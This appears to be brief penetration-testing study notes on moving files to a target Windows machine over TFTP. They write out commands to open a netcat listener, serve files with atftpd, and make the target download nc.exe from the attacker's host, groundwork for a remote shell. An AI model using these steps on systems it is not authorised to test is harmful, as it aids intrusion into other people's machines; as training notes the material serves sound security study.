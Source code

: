 # File Transfers


* Limit the commands on target machine to be non-interactive

## TFTP Transfers

* UDP
  * XP -2003 contained TFTP client by default
* Not ideal
* Mostly non-interactive

`nc -nlvp 443`

`atftpd --daemon --port 69 /tftp`

copy windows version of netcat to /tftp

Invoke tftp client on windows box.

`tftp -i <IP> GET nc.exe`
